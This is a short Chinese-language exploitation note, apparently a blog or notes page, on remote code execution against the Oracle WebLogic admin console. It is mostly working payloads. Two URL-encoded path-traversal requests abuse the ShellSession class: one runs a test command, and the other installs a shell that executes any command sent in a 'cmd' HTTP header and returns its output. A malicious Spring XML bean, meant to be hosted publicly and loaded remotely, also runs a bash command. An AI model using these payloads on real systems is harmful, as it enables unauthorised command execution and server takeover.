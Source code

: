 ##### 方法一

利用的是 `com.tangosol.coherence.mvel2.sh.ShellSession` 类

此利用方法只能在 Weblogic 12.2.1 及以上版本利用，因为低版本并不存在 `com.tangosol.coherence.mvel2.sh.ShellSession` 类

payload1

```
/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&amp;_pageLabel=HomePage1&amp;handle=com.tangosol.coherence.mvel2.sh.ShellSession(%22java.lang.Runtime.getRuntime().exec(%27touch /tmp/pocIsok%27);%22);
```

payload2

```
/console/css/%252e%252e%252fconsole.portal?test_handle=com.tangosol.coherence.mvel2.sh.ShellSession(%27weblogic.work.ExecuteThread%20currentThread%20=%20(weblogic.work.ExecuteThread)Thread.currentThread();%20weblogic.work.WorkAdapter%20adapter%20=%20currentThread.getCurrentWork();%20java.lang.reflect.Field%20field%20=%20adapter.getClass().getDeclaredField(%22connectionHandler%22);field.setAccessible(true);Object%20obj%20=%20field.get(adapter);weblogic.servlet.internal.ServletRequestImpl%20req%20=%20(weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod(%22getServletRequest%22).invoke(obj);%20String%20cmd%20=%20req.getHeader(%22cmd%22);String[]%20cmds%20=%20System.getProperty(%22os.name%22).toLowerCase().contains(%22window%22)%20?%20new%20String[]{%22cmd.exe%22,%20%22/c%22,%20cmd}%20:%20new%20String[]{%22/bin/sh%22,%20%22-c%22,%20cmd};if(cmd%20!=%20null%20){%20String%20result%20=%20new%20java.util.Scanner(new%20java.lang.ProcessBuilder(cmds).start().getInputStream()).useDelimiter(%22\\A%22).next();%20weblogic.servlet.internal.ServletResponseImpl%20res%20=%20(weblogic.servlet.internal.ServletResponseImpl)req.getClass().getMethod(%22getResponse%22).invoke(req);res.getServletOutputStream().writeStream(new%20weblogic.xml.util.StringInputStream(result));res.getServletOutputStream().flush();}%20currentThread.interrupt();
```

在 http 头添加 cmd 参数及其值即可 rce

![image-20250505174455535](https://6s6photo.oss-cn-chengdu.aliyuncs.com/20250625175617580.png)

##### 方法二

利用的是 `com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`

从这个函数都可以看出来，加载恶意xml来rce，此利用方法无版本限制，但是需要出网，公网上放1.xml

```
&lt;?xml version=&#34;1.0&#34; encoding=&#34;UTF-8&#34; ?&gt;
&lt;beans xmlns=&#34;http://www.springframework.org/schema/beans&#34;
   xmlns:xsi=&#34;http://www.w3.org/2001/XMLSchema-instance&#34;
   xsi:schemaLocation=&#34;http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd&#34;&gt;
    &lt;bean id=&#34;pb&#34; class=&#34;java.lang.ProcessBuilder&#34; init-method=&#34;start&#34;&gt;
        &lt;constructor-arg&gt;
          &lt;list&gt;
            &lt;value&gt;bash&lt;/value&gt;
            &lt;value&gt;-c&lt;/value&gt;
            &lt;value&gt;&lt;![CDATA[touch /tmp/xml_test]]&gt;&lt;/value&gt;
          &lt;/list&gt;
        &lt;/constructor-arg&gt;
    &lt;/bean&gt;
&lt;/beans&gt;
```
